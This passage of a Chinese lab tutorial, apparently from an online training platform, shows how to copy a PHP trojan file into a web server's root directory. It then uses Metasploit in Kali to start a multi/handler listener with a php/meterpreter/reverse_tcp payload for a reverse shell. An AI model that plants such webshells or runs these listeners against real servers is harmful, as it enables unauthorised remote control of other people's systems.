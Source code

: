 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993732499.png-wm)

输入如下命令，将木马文件，复制到网站的根目录下：

```
# 将 PHP 木马程序拷贝到网站目录下
sudo cp /tmp/hello.php /var/www/html/
```


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480994046645.png-wm)

### 4.4 使用 Metasploit 创建 WebShell

在上诉步骤成功之后，接着在 Kali 中打开 MSF 终端：

```
# 在 Kali 终端中打开 MSF 终端
msfconsole
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480994521453.png-wm)

如果一切顺利，成功之后如图：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480994668422.png-wm)

分别输入如下命令：

```
# 使用相应模块
use multi/handler

# 这一步会稍微久一点，大概三分钟左右，请耐心等待
set payload php/meterpreter/reverse_tcp

# 查看所需要填写的参数
show options

# 设置攻击者的主机参数
set LHOST 192.168.122.101

```

**其中 `set payload` 这一步的命令会稍微的久一点，大概`三分钟`左右，请耐心等待。**


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480995110186.png-wm)

在输入攻击命令后，进入待命状态：

```
# 对目标主机进行攻击
exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481004320190.png-wm)
